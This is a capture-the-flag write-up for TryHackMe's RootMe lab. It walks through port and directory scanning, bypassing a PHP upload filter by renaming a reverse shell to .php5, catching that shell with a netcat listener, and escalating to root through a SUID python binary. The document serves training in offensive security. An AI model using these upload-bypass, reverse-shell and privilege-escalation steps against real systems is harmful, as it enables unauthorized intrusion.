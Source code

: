 # RootMe
**Date:** October 9th 2022

**Author:** j.info

**Link:** [**RootMe**](https://tryhackme.com/room/rrootme) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>

![](images/rootme0.png)

<br>

## Objectives
- Scan the machine, how many ports are open?
- What version of Apache is running?
- What service is running on port 22?
- What is the hidden directory?
- user.txt
- Search for files with SUID permission, which file is weird?
- root.txt

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
```

That answers the first 3 questions.

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 30 -r -x php,txt,html -w dir-med.txt`

```
/index.php            (Status: 200) [Size: 616]
/css                  (Status: 200) [Size: 1126]
/js                   (Status: 200) [Size: 959] 
/uploads              (Status: 200) [Size: 744]
/panel                (Status: 200) [Size: 732]
```

That answers the 4th question.

<br>

## Website Digging

Visiting the main page:

![](images/rootme1.png)

Taking a look at /panel gives me a way to upload files, which I'm going to guess end up in the /uploads directory we found above:

![](images/rootme2.png)

I upload the pentestmonkey reverse .php shell and it looks like there are file type filters:

![](images/rootme3.png)

I test to see if it blocks all .php types and manage to upload it as a .php5:

![](images/rootme4.png)

And looking in /uploads confirms it's there:

![](images/rootme5.png)

<br>

## System Access

I set up a netcat listener on my system and click the file I uplaoded on the webpage:

```
listening on [any] 4444 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.35.253] 38130
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 02:57:54 up 12 min,  0 users,  load average: 0.00, 0.24, 0.34
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (908): Inappropriate ioctl for device
bash: no job control in this shell
www-data@rootme:/$
```

And quickly fix my shell since python3 is available:

```
www-data@rootme:/$ which python3
which python3
/usr/bin/python3
www-data@rootme:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@rootme:/$ ^Z
zsh: suspended  nc -nvlp 4444
                                                                                                        
┌──(kali㉿kali)-[~/work/tools]
└─$ stty raw -echo; fg
[1]  + continued  nc -nvlp 4444

www-data@rootme:/$ export TERM=xterm-256color
www-data@rootme:/$
```

<br>

## System Enumeration

I check `sudo -l` but it requires a password.

Other than root we have 2 users with shells:

```
rootme:x:1000:1000:RootMe:/home/rootme:/bin/bash
test:x:1001:1001:,,,:/home/test:/bin/bash
```

Looking at their home directories doesn't give us anything useful.

Looking in the /var/www directory shows us the user.txt flag:

`wc -c /var/www/user.txt`

```
21 /var/www/user.txt
```

I also notice a .bash_history file here that shows some things the author probably didn't intend to. But, honestly, I would have checked for SUID files next anyways. Running:

`find / -perm /4000 2>/dev/null`

Shows us that the python binary has SUID set. Checking it out gives us the answer to the 5th question:

```
-rwsr-sr-x 1 root root 3665768 Aug  4  2020 /usr/bin/python
```

<br>

## Root

The .bash_history file and GTFOBins list the same method to escalate over to root with the SUID python binary:

`python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

```
www-data@rootme:/$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
```

And over in /root we find the answer to the 6th and final question in root.txt:

`wc -c /root/root.txt`

```
26 /root/root.txt
```

You can also view the .bash_history file in /root to get a sense of some of the things the author did to create this box:

<br>

With that we've completed this CTF!

![](images/rootme6.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding a page on the website that lets you **upload files**
- Bypassing the **.php filter** by uploading a reverse shell as **.php5**
- Using the **reverse shell** that was uploaded to get our initial foothold on the system
- The **python binary** had the **SUID** bit set and we use it to escalate to root

<br>

Many thanks to:
- [**ReddyyZ**](https://tryhackme.com/p/ReddyyZ) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)
